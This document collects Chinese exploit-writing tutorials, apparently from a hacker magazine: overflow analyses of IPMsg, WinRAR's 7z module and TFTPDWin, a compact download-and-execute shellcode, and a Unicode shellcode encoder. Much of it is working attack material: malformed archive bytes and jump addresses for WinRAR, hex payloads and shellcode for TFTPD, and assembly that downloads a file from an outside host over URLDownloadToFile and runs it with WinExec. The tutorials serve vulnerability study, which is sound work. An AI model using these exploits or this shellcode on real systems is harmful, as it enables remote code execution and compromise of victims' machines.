if (command & IPMSG_SECRETOPT) {
    if (command & IPMSG_PASSWORDOPT)
        strcat(buf, PASSWDLOG_MSGSTR);   // (locked)
    else
        strcat(buf, SECRETLOG_MSGSTR);   // (sealed)
}
if (shareInfo && (command & IPMSG_FILEATTACHOPT)) {
    strcat(buf, "\n\n" FILEATTACH_MSGSTR " "); // (files)
    char fname[MAX_PATH], *ptr = buf + strlen(buf);
    for (int cnt=0; cnt < shareInfo->fileCnt && ptr-buf < sizeof(buf)-MAX_PATH; cnt++) {
        ForcePathToFname(shareInfo->fileInfo[cnt]->Fname(), fname);
        ptr += wsprintf(ptr, "%s%s", fname, cnt+1 == shareInfo->fileCnt ? "" : ",");
    }
    strcat(buf, "\r\n------------------------------\r\n");
}
```

记录日志的 `buf` 数组只有 2048 个字节长，因为不断地把文件名拷贝到 `buf` 里面，就有可能被溢出。代码里有长度检查：`ptr-buf < sizeof(buf)-MAX_PATH`，其中 `sizeof(buf)-MAX_PATH = 1788`，但后续分隔符拷贝仍可能导致溢出。

分析构造方式：通过发送多个文件，让前面文件名与间隔符总长满足临界条件，再追加一个较长文件名触发覆盖。文中以多个长度为 226 的文件名进行组合，满足拷贝条件后再触发后续溢出。

至于日志输出的具体形式，可以在任务栏托盘图标中选择“查看通信记录”，弹出日志文件，格式如图2所示。


```c
for (int cnt=0; cnt < shareInfo->fileCnt
    && ptr-buf < sizeof(buf)-MAX_PATH;
    cnt++) {
    ForcePathToFname(shareInfo->fileInfo[cnt]->Fname(), fname);
    ptr += wsprintf(ptr, "%s%s", fname,
        cnt+1 == shareInfo->fileCnt ? "" : ",");
    strcat(buf, "\r\n----------------\r\n");
}
```

代码检查要求当前已拷贝长度小于 1788，才能继续记录下一个文件名。但该检查与后续附加字符串组合后，仍存在越界风险。


如图4所示，接收端尚未完全接收即发生崩溃，表明溢出被触发。


结论：IPMsg存在可触发溢出点，但溢出字符可控性有限、长度较短，利用难度较高；在不同语言版本下可利用性仍需进一步挖掘。

适合读者：溢出爱好者  
前置知识：汇编语言，缓冲区溢出基本原理

## 菜鸟版Exploit编写指南之二十四
## WinRAR 7z文件名溢出分析和利用


文/图 gyzyl[江苏大学信息安全系&EST]

security.nnov.ru 在 2006 年底的时候发布了一个针对 WinRAR 7z 溢出的 POC，可以导致执行恶意代码，此溢出出现在 WinRAR 3.40–3.60（7-zip module）版本中，其他版本暂未发现。可能有些朋友认为 7z 格式出问题不是那么严重，但 WinRAR 有个不算 Bug 的 Bug，它是不认扩展名的，这意味着将 7z 格式的压缩包扩展名改成“.rar”还是能被 WinRAR 解压的，这就给恶意利用创造了机会，嘿嘿。在 WinRAR 安装目录下的 Formats 文件夹里有许多扩展名为 fmt 的文件，它们其实都是 DLL，供主程序调用处理不同的压缩包。在 2006 年 7 月份的时候，LZH 格式也曾出现过 Stack Overflow，但这次的 7z 溢出严格地来说并不能称之为 Stack Overflow，看完下面的漏洞分析，大家就知道为什么了。

既然已经有了 POC，我们就没有必要自己去阅读大把的 7z 格式说明文档了。7z 是开源的，在其官方网站（www.7-zip.org）能下载到格式说明和一个开源工程，感兴趣的朋友可以仔细研究一下 7z 的文件格式。这里我直接给出 POC 代码中公布的一个已经构造好的畸形压缩包，代码如下。

```c
unsigned char hz_part2[] =
"\x40\x0A\x00\x0F\xE9\xB5\xBF\xF2\x60\x15\x06\x01\x00"
"\x20\x00\x00\x00\x00\x00\x00";
// 文件属性等信息
```

这样，一个畸形的 7z 压缩包就构造好了，大家自己和图1对比一下，是不是一样呢？


图1

```c
unsigned char hz_part1[] =
"\x37\x7A\xBC\xAF\x27\x1C\x00\x02"
// 前8个字节是固定的
"\xEE\xD6\x49\x23"
// 7z头部32字节的CRC1
"\x00\x00\x00\x00\x00\x00\x00\x00"
// 下一个7z头的偏移，这里是0
"\x2D\x40\x00\x00\x00\x00\x00\x00"
// 下一个头的长度，这里是0x402D
"\x3D\xC3\xFE\x9F"
// 除前32字节外的CRC2
"\x00\x00\x00\xE0\x01\x80\x0F\x01\x80\x11\x80\x01\x00";
// 下一个头开始

char filename[0x400A];
```

不过先别急着打开，因为 WinRAR 会对 7z 压缩包进行 CRC32 校验，假如校验有错的话就会提示压缩包损坏，所以我们必须自己重新计算 CRC 校验值。所幸的是，czy 大牛的博客上公布了一个计算 7z CRC 校验的程序，我在其基础上略微修改了一下，在此表示感谢。假如大家为了练手要自己动手，那么有一点需要注意，由于第二个 CRC 值会间接影响到第一个 CRC 校验，所以必须先计算第二个 CRC 校验值。CRC32 的算法网上一抓一把，这里就不多说了。我所提供的 7zCRC.exe 默认校正当前目录下的 test.rar，这一点也请注意，7zCRC.exe 程序我已在随文的资料中提供。

### 小试锋刃

也许大家会奇怪，为什么图1里面我文件名填充的都是重复的 0x9960 呢？答案就是 Unicode！7z 要求文件名必须是 Unicode 编码，0x9960 就是两个 nop（0x90）的 Unicode。对于 Unicode 我不再多做解释。有一点大家要牢记，0x80 以上的会被转义。举个例子，0x4100 大家都知道是大写的 A，但是 0x9000 就不是大家所熟悉的 nop 了，依据语言环境的不同，可能会被转义成乱码。正是这一点，给我们下面的完美利用带来了许多麻烦。我们双击打开压缩包，然后要点“解压到（Extract To）”才能触发 WinRAR 出错，如图2所示。


`\x12\x00\x45\x00\x3F\x00\x41`，看来自这个地址是不能用了。POC 中提供的是 0x100201BB 地址，这个地址是在 7zxa.dll 的 `.rdata` 段里，虽然这里有个 0xBB，但是由于它处在首尾两端，我们还是可以给它补一个字节的，这样就不怕转义了；但是在测试中我发现，7z.fmt 和 7z.dll 的加载基址几乎每次都是不一样的，所以这个地址也只能放弃。难道我们真的要放弃？


Offset:90909090！嘿嘿，EIP 被覆盖了，接下来我们要做的就是定位溢出点。两次定位法这里还是不多说了。我直接给出结果：溢出点就在“filename+8”开始的四个字节。由于我们的 ShellCode 在栈中，我习惯性地想到了中文 Windows 2000/XP/2003 下通用的 Jmp esp 跳转地址 0x7FFA4512，下面看看我的代码。

### 柳暗花明

我们的跳转地址必须符合以下条件才可能成功利用：

- 一是需要能够跳回堆栈；
- 二是四个字节不能出现大于 0x80 的字节。若出现 0x80 以上的字节，则不能出现在中间两个位置上。

打开 OD 的内存，一个一个模块搜索过来，皇天不负有心人，在所有加载模块的最高处 Shell32.dll 的 `.text` 段里面居然让我找到了：0x7D646981。嘿嘿！这下我们的跳转地址就可以这么构造了：0x4100 0x4100 0x4100 0x8A7C 0x6900 0x6400 0x7D00，其中 0x8A7C 是 0x81 的 Unicode。

```c
// 写入超长文件名
char content[0x2005];
// 0x400A/2 = 0x2005，用于ASCII向Unicode转换
memset(content,0x41,0x2005);
// 填充0x41，不会引发转义问题
memcpy(content+4,"\xD2\x45\x1A\x7F",4);
MultiByteToWideChar(CP_ACP,0,content,0x2005,(LPWSTR)filename,0x400A);
// Convert
WriteFile(h7z,(LPCVOID)filename,0x400A,&dwWritten,NULL);
```

这时候栈的地址是在 0x17Dxxxxx 这个地方，马上重新生成一个压缩包，打开，但出错的地址不在栈中，意味着 EIP 没有跳转到栈中，如图3所示。奇怪，3F 是哪来的呢？经过查找资料，了解到 Unicode 是双字节码，3F 表示的是未知字符，文件名的 16 个字节经过 `MultiByteToWideChar` 函数的转化后已经变成了 `\x41\x00\x41\x00\x41\x00\x41\x00\x12\x00\x45\x00\x3F\x00\x41`。

但这不是最完美的解决方案，因为不是每台机器的 0x7D646981 都是 Jmp esp。但同一个 SP 下 Shell32.dll 加载的基址应该是固定的，至于如何实现通用，这个问题还是留给读者自己去思考吧。

ShellCode 的定位问题算是暂时告一段落了，紧接着而来的问题就是要有能够经得起转换的 ShellCode。对了，纯字母数字的 ShellCode 就是符合这样要求的 ShellCode，能经得起 `MultiByteToWideChar` 折腾的也就它了。黑防第2期杂志已经发表过关于编写纯字母数字 ShellCode 的文章了，不了解的可以翻看一下。不知大家是否已经有了自己的 AlphaNumeric ShellCode 呢？如果没有的话，这里就提供一个生成的模板供大家使用。

```text
... nops ...
mixedcase_ascii_decoder_body {...}
"eax" ... "PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJI"
```

```c
mixedcase_ascii_decoder_body {
  "ecx", "IIIIIIIIIIIIIII7QZ"
}
mixedcase_ascii_decoder_body {
  "edx", "JJJJJJJJJJJJJJJJ7RY"
}
mixedcase_ascii_decoder_body {
  "ebx", "SYIIIIIIIIIIIII7QZ"
}
...
mixedcase_ascii_decoder_body {
  "[esp+1C]", "YYYYYYYYYIIIIIIIIQZ"
}
"nseh", "mixedcase_w32sehgetpc ..."
// ecx code
```


图4

不会是它的缓冲区只有 1 个字节吧？为什么打开的时候不触发漏洞，只有解压的时候才触发呢？为什么我说这不是严格意义上的栈溢出呢？带着这一连串的问题，任何言语的猜测都是苍白的，还是让 OD 去解开我们的疑团吧。这里顺便发一下牢骚，OD 对多线程的处理真是不怎么样，经常会莫名其妙地出现假死现象。我们先加载 WinRAR.exe 让 OD 跑起来，记得先把跳转地址改掉，以免出现没有断下来的尴尬局面；另外还要记得校正 CRC 值，不然它会郑重地警告你一下，哈哈，接下来祈祷你的机器没有假死吧，如图5所示。

这段代码是解码头，根据溢出的时候哪个寄存器指向 ShellCode 进行选用，生成 ShellCode 主体的函数随文资料 alphashellcode 中已经提供。我们这里应该选择“TYIIIIIIIIIIIIII7QZ”这个解码头，由于 ShellCode 比较长，我这里就不写出来了，大家自己看随文提供的资料就可以了，以免我有骗稿费之嫌。再次测试，成功！结果如图4所示。

### 疑云重重

虽然利用是成功了，不过大家有没有发现一些比较奇怪的问题呢？既然是栈溢出，为什么溢出点却在超长字符串的前面，而不是在中间或者后面，


图5

以我的经验来看，似乎原版的 OD 好像稳定性好一点，所以这里我用的是原版的。这个时候 EIP 已经被覆盖了，在堆栈窗口里往上往下都翻了翻，没有翻到正常的返回地址，奇怪了，不可能所有的返回地址都被覆盖了吧？这也太狠了，居然一点线索都不给留下。按照常规堆栈回溯，应该很容易找到出问题的代码的，看来事情越发地扑朔迷离了。Ctrl+F2 重新来，F9 让它跑起来，然后 bp CreateThread，在这上面下断点，因为很明显，解压文件的时候需要新开线程。我们会发现 0049CDFC 这个地址是新开线程的起始地址，然后一步步往下跟（省略 N 多步骤，要是都写出来有点感觉自己像是写长篇小说了^_^），跟进到如下的代码处，会发现返回的时候 EIP 被覆盖了，RETN 8 指令说明在返回地址后面要有 8 个字节的保留空间，再跟 ShellCode，我们在 0045BD80 处下断，如图6所示。

若干步骤，在 01DCF8E8 上下写入硬断，里面保存着被覆盖前的 EBP，下面这段代码则覆盖了栈里的正确 EBP 值。

```asm
00494AD8 57            PUSH EDI
00494AD9 8B7D08        MOV EDI,DWORD PTR SS:[EBP+8]
00494ADC 8BC7          MOV EAX,EDI
00494ADE 8B750C        MOV ESI,DWORD PTR SS:[EBP+C]
00494AE1 8B4D10        MOV ECX,DWORD PTR SS:[EBP+10]
00494AE4 8BD1          MOV EDX,ECX
00494AE6 D1E9          SHR ECX,1
00494AE8 D1E9          SHR ECX,1
00494AEA FC            CLD
00494AEB F3A5          REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
00494AED 8BCA          MOV ECX,EDX
00494AEF 83E103        AND ECX,3
00494AF2 F3A4          REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
00494AF4 5F            POP EDI
```


图6

```asm
0045BD63 E8 7466FBFF   CALL WinRAR...
0045BD68 84C0          TEST AL,AL
0045BD6A 74 04         JE SHORT ...
0045BD6C B0 0F         MOV AL,1
0045BD6E EB 0F         JMP SHORT ...
0045BD70 43            INC EBX
0045BD71 3B9F04040000  CMP EBX,DWORD PTR DS:[EDI+404]
0045BD77 0F8C41FFFFFF  JL ...
0045BD7D 33C0          XOR EAX,EAX
0045BD7F 5F            POP EDI
0045BD80 5E            POP ESI
0045BD81 5B            POP EBX
0045BD82 8BE5          MOV ESP,EBP
0045BD84 5D            POP EBP
0045BD85 C2 0800       RETN 8
```

### 柳暗花明

这时的 ESP 还是 01DCF80C，怎么后来就跳到了 017D6578 了呢？答案就在下面 0045BD82 处的 `MOV ESP,EBP`，而 EBP 恰恰是 017D6578，这就解释了刚才的种种疑问：为什么异常发生的时候栈里回溯不到调用信息，为什么溢出点会出现在字符串的前几个字节，答案就是 EBP 的值被污染了！重复上面的若干步骤，在 01DCF8E8 上下写入硬断，里面保存着被覆盖前的 EBP，下面这段代码则覆盖了栈里的正确 EBP 值。

省略 N 多步骤后，最后可以发现是 00412562 这里的指令将 EBP 值污染了，然后返回到 0045BD82 的时候间接覆盖了 ESP。

`00412562: 5D  POP EBP`

跟踪到这的时候，我也觉得有点意思，很难说这是个标准的覆盖返回地址或者 SEH 链的栈溢出，但是确实间接地覆盖了返回地址。最近一年来，各种第三方软件的文件处理漏洞逐渐多了起来，个人觉得像这一类的漏洞基本上只能靠黑盒测试发现，代码审计也许都很难发现。POC 的作者能发现这个溢出也算运气，也许短一点的文件名根本就触发不了这么隐秘的 Bug，而且这个溢出确实不太好利用，溢出点如果靠后点还能伪装一个诱人点的文件名，但这个溢出大家用来练练手还是不错的，因为其中牵涉到了很多方面的知识。

### 小结

本文介绍了针对已发布的 POC 进行改写利用的一些方法和心得，并给出了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正，衷心祝愿大家猪年快乐！


- 适合读者：溢出爱好者  
- 前置知识：汇编语言、缓冲区溢出基本原理

#### 新手溢出 TFTPD


文／图 雪山[S!S]

一直想找个机会好好学一下溢出，可惜总是太忙没时间，谁叫我是好学生了。不过这次学院有个比赛恰好要用到溢出，于是就找了篇新手学溢出的文章看看，加上自己写程序做实验，最终搞定了这个题目。题目就是 Windows 2003+SP0 下的 TFTPDWin v0.4.2 的溢出。我开始的实验是在 Windows XP+SP2 下进行的，成功后再转移到 Windows 2003 下也很方便。

TFTPDWin v0.4.2 程序的漏洞已经公布出来了，它在处理超长文件名时有栈溢出，长度为 284 字节。我先用下载超长文件名的文件试了一下，结果如图1所示。


图2

strcpy 的目的地址为 000000A0 而导致函数执行出错，具体是什么错误我没搞清楚，但是我相信它应该破坏了堆栈。


图1

看到没有，程序出错了！马上用 OllyDBG 调试一下，不过想找出是在哪里产生的错误也不是很容易的。我大致想了一下 TFTPD 的工作流程：它先用 recvfrom() 接收到客户端的文件下载请求，再在子函数里用 strcpy() 把接收到的文件名复制到一个局部变量里做一些判断，应该就在这后面发生了溢出，所以我先找出了调用 recvfrom() 的地方，如图2所示。

还真是有点运气啊，只有一个调用了这个函数的地方，那就在这里设置断点吧！按 F9 运行，再用客户端测试。到了断点之后一路按 F8 跑起来，到 00412B78 这里出现了错误，这句的汇编代码是“CALL 0041307C”，那肯定就是在这个函数里面出现了错误。再重新开始调试，运行到“CALL 0041307C”的时候就用 F7 进入到这个子函数，然后再按 F8 跑起来，中间有一个循环可以在下面设置断点跳过，再到后面一点就出错了，不过一看只是 strcpy 的目的地址为 000000A0 而导致函数执行出错。


图3

接下来我把覆盖字符从 a 变到 abcdefg 再试一下，果然出现了不同，在 004131E1 这里发生了错误，汇编代码是“CALL 0040638B”，同样是调用了一个子函数，其错误信息如图3所示。

EIP 出错！看来这次是对了。再次调试，在 004131E1 处设置断点再按 F7 步进看看，进去之后果然在返回时出错了，看来突破点就在这里了，错误是 00006766 不可读，那就说明是最后两个字母 fg 覆盖了 ret 地址。再往前找一下出现覆盖返回地址的地方在哪里，如图4所示。看来 TFTPD 就是由于先申请了一段空间用来存放传进来的文件名，再由上面选中的那个 strcpy(004063A4) 把文件名复制进来，由于没有考虑到溢出，所以导致超长文件名覆盖返回地址了，这个具体过程大家可以自己分析一下。既然根源找到了，再把 fg 替换成 JMP ESP 的机器码……


图4

```text
31 31 31 ... (abcde) 61 62 63 64 65
jmp esp\n2 45 fa 47 (shellcode)
55 8B EC 33 FF 57 83 EC 08 C6 45 F4 63 C6 45 F5 6F ...
```

这是 TFTPD 请求数据包的应用层数据的十六进制码，不过结果有点意想不到，在中途就出现了意外，如图5所示。当 00406432 处的 strcpy 执行时，它的源字符串地址发生了变化，刚好是 ShellCode 的前四个字节……说明这个地址不存在，所以这个 strcpy 是执行不成功的。JMP ESP 后面的 ShellCode 影响了前面函数的参数。

再次测试，果然成功了，接下来就是加上 ShellCode 了（发送数据可以自己写程序，也可以用一些网络程序调试工具）。我先加载了一个很简单的打开 command.exe 窗口的 ShellCode，代码如下。

```asm
mov ebp, esp
xor edi, edi
push edi
sub esp, 08h
...
mov byte ptr [ebp-0dh], 63h ; c
mov byte ptr [ebp-0bh], 6fh ; o
...
lea eax, [ebp-0ch]
push eax ; command.com
mov eax, 0x7801AF03
call eax ; call System
```


图5

这是我在网上找的一段代码。由于这个程序已经加载了 msvcrt.dll，所以只需要这一段，前面加载 msvcrt.dll 的一段就不需要了。把这一段代码转换成十六进制码之后，加在数据后面也不长，加上之后再次测试。

说干就干，这个过程有点漫长，不过最终找到了一个比较好的地址 7D78FF33。这个地址作为指令就是 33 FF 78 7D，在 TFTPD 里面的汇编代码是“XOR EDI, EDI; JS SHORT 00E0F449;”。第一句将 EDI 置为 0，第二句条件跳转不会发生，自然向下执行且不影响结果。这里有一个小技巧，7D 的改变对 ShellCode 的执行基本没有什么影响……

```text
00 01 31 31 31 31 31 31 ...（大量 31 重复的十六进制数据）
```

```text
00 01 31 31 31 31 31 31 ...（大量 31 重复的十六进制数据）
31 31 31 ...
...(abcde) 6F 62 63 64 65 (jmp esp) 2D 45 FA 7F (特殊字节) 33 FF 78 7D (shellcode)...
8B EC 33 FF 57 83 EC 08 C6 45 F4 63 C6 45 F5 6F C6 45 F6 6D C6 45 F7 6D C6 45 F8 61 C6 45 F9 6E C6 45 FA 64
C6 45 FB 2E C6 45 FC 63 C6 45 FD 6F C6 45 FE 6D 8D 45 F4 50 ...
```


图6

这个问题搞定后，下面该定制自己的 ShellCode 了。由于我执行的命令行比较长，所以把命令行放在了那一堆的 1 里面，这样就大大缩短了后面 ShellCode 的长度。如图6所示是调试中的结果，只有几行 ShellCode 就完成了超长命令执行，还可以吧？

既然 Windows XP 下测试成功了，下面就该转到 Windows 2003 下了。过程相当简单，换一下 system() 的地址，再将那四个特殊字节换为 33FF7877 即可。

TFTPD 是我做的第一个溢出，不过感觉这个溢出还是蛮有意思的，大家可以自己试试看。由于我的水平有限，文中有些内容可能讲得不太专业或有错误，还请高手们予以多多指点了！

- 适合读者：溢出爱好者  
- 前置知识：VC、汇编语言

## 打造200字节的最短通用ShellCode


文／图 王炜／ww0830

ShellCode 在保持对各个版本通用性的基础上，当然是越短越好，这不仅仅是黑客艺术对简单美的追求，更重要的是有时候能利用的空间只有这么少。这不，这次我就遇到了长度限制只有 210 字节的情况。网上看了一下，属于比较短的 ShellCode 有“382 bytes bind port shellcode for win2k all ver”和“359 bytes connect back shellcode for win2k all ver”等，不过这些比较短的也都超过了 350 字节。看来直接对其修改无论如何都不能达标了，只好自己想办法来打造最短的 ShellCode 了。

### 功能分析

要使得 ShellCode 的长度小，调用的函数必须少，但也要保持功能的实用性，所以我们只考虑下载文件并执行文件的功能。要实现该功能，只需要调用 URLDownloadToFile 和 WinExec 两个函数即可，示例程序如下。

```c
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon")
int main()
{
    LoadLibrary("urlmon");
    URLDownloadToFile(NULL, "http://192.168.0.250/a.a", "c:\\a.a", NULL, NULL);
    WinExec("c:\\a.a", 0);
    return 0;
}
```

这个程序能够完成从 192.168.0.250 机器上下载“a.a”，另存为“C:\a.a”并执行的功能，效果如图1所示。这段代码非常简单，可以保证简短的长度，而且额外的功能可以在下载的文件里进行完美扩充，所以我们选择这样功能的 ShellCode 并尽量压缩其代码长度。

```c
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib,"urlmon")

int main(){
    LoadLibrary("urlmon");
    URLDownloadToFile(NULL,"http://192.168.0.250/a.exe","c:\\a.exe",NULL,NULL);
    WinExec("c:\\a.exe",0);
    return 0;
}
```


图1 执行效果

### 长度分析

实用的 ShellCode 的基本要求有：不能有特殊字符（比如 0x00 或会被应用替换的特殊字符）和能实现版本通用性（即不同的 Windows 系统和 SP 条件都能执行），在满足了这两个要求后，再加上需完成的目标功能。

我们可以大概估计一下满足这些基本要求后，代码所需的最小长度。当我们实际编写出来的代码长度达到或接近这个值后，就可以认为是基本最优的，从而可以停止改进了。

对于要求1“不能有特殊字符”，就需要对原文 ShellCode 进行编码，并在最开头加上一段解码代码；对于采取异或编码方式的情况，解码代码的长度至少需要 21 字节（后面可具体看到）。

对于要求2“实现各版本通用性”，就需要动态获得目标机上的函数地址，再调用该地址，这样就可以保证在不同系统都能正确执行 ShellCode。动态获得目标机上的函数地址分为两步：获得 kernel32.dll 的地址和目标函数的地址。第一部分若采用 PEB 信息获得 kernel32.dll 地址，其代码长度为 22 字节；第二部分若采用 Hash 比较获得函数地址，其代码长度为 75，而供比较使用的 Hash 值需要 37 字节，全部加起来共 134 字节。

满足了这两个要求后，用去了 155 个字节，此时还没有加上所需完成的功能。不过还好，这一部分只是构造所需字符串、构造函数参数，然后调用函数地址完成执行。我们希望尽量缩短这部分长度，使得总长度在 200 字节左右。

### 解码段实现

解码段是很标准的实现，在 VC 中内嵌汇编实现如下，代码我已经加了详细注释，相信大家一看就会明白。

```asm
__asm {
    jmp DYNAMICGETADD
DECODEBEGIN:
    pop ebx
    dec ebx
    xor ecx, ecx
    mov cl, 0FFh
DECODE:
    xor byte ptr [ebx+ecx], 88h
    loop DECODE
    jmp ENCODEDSEG
DYNAMICGETADD:
    call DECODEBEGIN
ENCODEDSEG:
}
```

在一般情况下，该解码算法需要 23 个字节，这里只需要 21 个字节的原因是由于 ShellCode 短小，长度在 0xFF（即 255）内，原本需要赋给 ecx 的值，这里只需要赋给 cl，从而可以节省两字节。此时，真是一字节值千金啊。

### 函数地址的动态获得

- 1) 动态获得 kernel32.dll 地址

函数地址的动态获得首先需要获得 kernel32.dll 的地址。获得 kernel32.dll 地址的方法很多，但比较优雅的是利用 PEB 结构来获得。简单来说，fs 寄存器指向 TEB 结构，在 TEB+0x30 处指向 PEB 结构，在 PEB+0x0C 处指向 PEB_LDR_DATA 结构。在 PEB_LDR_DATA+0x1C 处就是一些动态连接库的地址，如第一个指向 ntdll.dll，第二个就是 kernel32.dll 的地址。

```asm
mov eax, fs:[0x30]
mov eax, [eax+0x0c]
mov esi, [eax+0x1c]
lodsd
mov ebp, [eax+0x08]
; ebp 即 kernel32.dll 基址
```

下面测试一下，在 VC 中用 `__asm` 关键字嵌入汇编并调试，得到本机上的 kernel32.dll 地址为 0x77E40000，和系统上的值的确一样，如图2所示。

- 2) 动态获得函数地址

获得了 kernel32.dll 的地址后，可以通过查找它的导出函数表，找到我们需要的 URLDownloadToFileA 和 WinExec 等函数地址。这里使用比较函数名 Hash 值的方法。Hash 函数子程序如下。

```asm
FINDFUNADDRSUB:
; 通过函数名 HASH 值获得函数地址的子程序
push ecx
...
push esi
mov esi, dword ptr [ebp+3Ch]
// esi = PE header offset
mov esi, dword ptr [esi+ebp+78h]
// exports directory offset
add esi, ebp
// exports directory table
push esi
mov esi, dword ptr [esi+20h]
add esi, ebp
// esi = name pointers table
xor ecx, ecx
dec ecx
NEXTFUNNAME:
inc ecx
lodsd
add eax, ebp
xor ebx, ebx
NEXTCH:
movsx edx, byte ptr [eax]
cmp dl, dh
je COMPAREHASHVALUE
ror ebx, 0Dh
add ebx, edx
inc eax
jmp NEXTCH
COMPAREHASHVALUE:
cmp ebx, dword ptr [edi]
jne NEXTFUNNAME
pop esi
mov ebx, dword ptr [esi+1Ch]
add ebx, ebp
mov eax, dword ptr [ebx+ecx*4]
add eax, ebp
stosd
...
ret
```


图2

这里比一般的查找程序又省了一点。通常程序找到函数名后，会通过下标在索引表中找其索引值；但在一般情况下，下标和索引值是相同的，所以可以直接使用下标作为索引值，避免了索引值的查找过程，从而又节省了一点代码长度。

- 3) HASH 值的表示

HASH 值或一些字符，可以通过 `_emit` 关键字来定义完成。`_emit` 和 MASM 的 DB 指令类似，是告诉编译器直接在本区域内定义一个字节型字符。虽然它每次只能定义一个字节，但可以连续使用它来定义出一个字符串，比如 `_emit 0x4A`。使用 `_emit`，我们可以定义相关 HASH 值如下。

```asm
HASHCODE:
call BEGIN
_emit 0x8C;   // LoadLibraryA 的 HASH 值
_emit 0x4E;
_emit 0x0E;
_emit 0xEC;
_emit 0x98;   // WinExec 的 HASH 值
_emit 0xFE;
_emit 0x8A;
_emit 0x0D;
_emit 0x36;   // URLDownloadToFileA 的 HASH 值
_emit 'h';
_emit 't';
_emit 't';
_emit 'p';
_emit ':';
_emit '/';
_emit '/';
_emit '1';
_emit '9';
_emit '2';
...
```

使用 `_emit` 可以直接将字符串写出来，我们不用考虑高字节在高地址的问题，使用起来比较方便。

### 功能实现

最后剩下的就是功能完成的主流程了，也就是完成查找函数地址和调用的功能。实现代码如下。

```asm
push 2
pop ecx
FINDADDR:
call FINDFUNADDRSUB
; 查找 LoadLibrary 和 WinExec 函数地址
loop FINDADDR
push 6E6Fh
push 6D6C7275h ; urlmon
push esp
call dword ptr [esi]
; 执行 LoadLibrary(urlmon)
mov ebp, eax
call FINDFUNADDRSUB
; 查找 URLDownloadToFileA 函数地址
push 612Eh
push 615C3A63h
; 构造本地文件名 c:\a.a
push esp
pop ebx
xor eax, eax
push eax ; NULL
push eax ; NULL
push ebx
push edi ; edi = http://192.168.0.250/a.a
push eax ; NULL
call dword ptr [esi+8h]
; 执行 URLDownloadToFile()，完成下载
push eax
push ebx ; c:\a.a
call dword ptr [esi+4]
; 执行 WinExec，完成文件调用
```

```c
unsigned char shellcode[] = "\x40\x0c\x8b\x00...";

int main() {
  ((void(*)(void))&shellcode)();
  return 0;
}
```

其中，“`((void(*)(void))&shellcode)()`”用于把 ShellCode 转换成一个参数为空、返回为空的函数指针，并调用它。执行那句代码就相当于执行 ShellCode 数组里的那些数据。如果 ShellCode 正确，就会完成我们想要的功能。实现效果如图3所示，成功下载了测试程序并执行。


图3

### 测试

有了上面的工作，接下来提取 ShellCode 剩下的就只是体力活了。我们对刚才的全汇编程序按 F10 进入调试，接着按下“Debug”工具栏的“Disassembly”按钮，然后点右键，在弹出菜单中选中“Code Bytes”，就出现了汇编对应的机器码。因为汇编完全可以完成我们的功能，所以只要把汇编对应的机器码原封不动地抄下来，就得到了我们想要的 ShellCode。最终提取出来的 ShellCode 如下，其中我加入了测试框架实验。

```c
unsigned char shellcode[] = "\x...";
```

### 小结

到这里，我们就成功生成了总长度为 204 字节的 ShellCode，满足了要求。测试文件的下载地址是 http://192.168.0.252/a.a，保存的本地文件为 c:/a.a。这还可以作进一步改进，比如本地文件名为“c:/a”或者省略路径直接为“a”，或者申请一个短一点的域名，都可以轻易将 ShellCode 长度缩短到 200 字节以内。200 字节以内的 ShellCode 可以说是一个质变，在很多特殊情况下非常有用。剩下的这点改动就留给大家去完成吧，编写 ShellCode 的乐趣也正在这里！

- 适合读者：溢出爱好者
- 前置知识：汇编语言、ShellCode基本原理

## 菜鸟版 Exploit 编写指南之十五

## 编码 Unicode 有戏的 ShellCode


文／图 gzyj［江苏大学信息安全系 & EST］

对于溢出爱好者来说，能够编写 ShellCode 是一个必备的基本技能，特别是能应对各种在实际情况中对 ShellCode 存在各种限制条件的时候，这种能力就显得尤为重要了。黑防 2007 年第 2 期中介绍了纯字母数字的 ShellCode 的编写，在第 3 期中的 WinRAR 7z 溢出中就派上了用场。Unicode 大家应该不陌生，在一些大型程序中，比如 Word、Excel，考虑到不同语言平台的差异性，都会使用 Unicode。在利用这些程序中的漏洞的时候，我们以往的 ShellCode 就难以适用了。一个普通的 Down&Exec 的 ShellCode 经过 MultiByteToWideChar 函数转换成 Unicode 后，结果如图 1 所示。

看到问号的存在。这里我们还是采取分段编码，方法如下。

| 结构 |
|---|
| 解码头部 |
| 拆分编码的原 ShellCode |

为了保护原始的 ShellCode，我们将原始的 ShellCode 每个字节都拆分成两个字节，高 4 位和低 4 位均加上 0x61(a)。由于 4 位只能表示 0~15，所以每个字节都可以拆成 a~p 的两个字节，这样就顺利地躲过了编码转换的问题。剩下的就是构造尽量小的解码头，使之转换不出现 0x3F。当然，最理想的情况就是解码头在 ASCII 码的情况下是纯字符，这里我介绍的解码头不是纯字符，在 MultiByteToWideChar 中使用不同的代码页转换出的结果都是不一样的，也就是 ShellCode 可能无法实现跨语言平台，上述的纯字符串解码头则可以跨语言平台实现通用。


## ShellCode 编写思路

可能有的读者会认为，只要先将 ShellCode 写好，然后用 WideCharToMultiByte 函数转换成 ASCII 码，再经过程序转换成 Unicode 就可以了。但事实不是这样的，在转换成 Unicode 的时候，转换函数会根据当前使用的代码页进行转换，比如大写字母 “A(\x41)” 被转换成 “\x41\x00”，但是第一个字节 > 0x80 或者第二个字节不是 \x00 的时候，情况就不是这么简单了，MultiByteToWideChar 会查找代码页中的对应结果，假如找不到就会用 \x3F(?) 代替，表示有错误，所以大家才会在图 1 中转换后的 ShellCode 看到问号的存在。

## 编写实例

有了思路后，就剩下编码的问题了，我将分成四个部分分别加以阐述。

- 1）对原 ShellCode 进行拆分编码，编码的思路已经说过，下面是编码部分的代码。

```cpp
// shellcode1 指向待编码的 ShellCode，pShellcode 是指向其的指针，详见 encode.cpp
BYTE* pShellcode = shellcode1;
char high, low;
for (int i = 0; i < sizeof(shellcode1) - 1; i++, pShellcode++) {
    high = low = *pShellcode; // 对高4位进行编码
    high >>= 4;               // 将高4位移至低4位
    high &= 0xF;              // 清零移位后的高4位
    high += 0x61;
    // 下面对低4位进行编码
    low &= 0xF;               // 清零低4位
    low += 0x61;
    printf("%c%c", high, low); // 输出编码后的结果
}
